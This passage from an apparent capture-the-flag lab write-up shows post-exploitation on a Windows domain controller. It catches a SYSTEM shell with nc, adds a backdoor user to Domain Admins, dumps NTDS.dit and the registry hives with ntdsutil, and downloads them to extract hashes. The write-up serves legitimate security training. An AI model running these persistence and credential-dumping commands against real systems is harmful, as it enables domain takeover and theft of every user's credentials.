 
Now on my local listener, I have shell as the system:

`nc -lvnp 443`

![](https://i.imgur.com/TPCWM0q.png)


## Beyond Root
Above connection is a shell, but it is annoying to reproduce this procedure every time whenever needing a shell as SYSTEM. Below are some methods to maintain persistence within the system.

### Adding Domain Admin User

I can simply create a new user and add the user in Domain Admins group as such:

```bash
net user jadu jadu101 /add
net group "Domain Admins" /add jadu
```
![](https://i.imgur.com/AfmJPXJ.png)



Now with evil-winrm, I can sign in as the created user:

![](https://i.imgur.com/y8ojooG.png)


### Dumping NTDS.dit

I can dump **NTDS.dit** to obtain hashes for users and pass those hashes to gain connection to the machine.

Below command dumps **SECURITY**, **SYSTEM**, and **NTDS.dit** file to Temp folder which could be downloaded to dump password hashes:

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`

![](https://i.imgur.com/5cMUA6O.png)


On **/Temp/registry**, I have **SECURITY** and **SYSTEM** file which I download to local machine:

```bash
download SECURITY
download SYSTEM
```
![](https://i.imgur.com/9NfYoBM.png)


On **/Temp/Active-Directory**, I have **NTDS.dit** file which I download to local machine as well:

```bash
download ntds.dit
```
![](https://i.imgur.com/ix6S7VR.png)
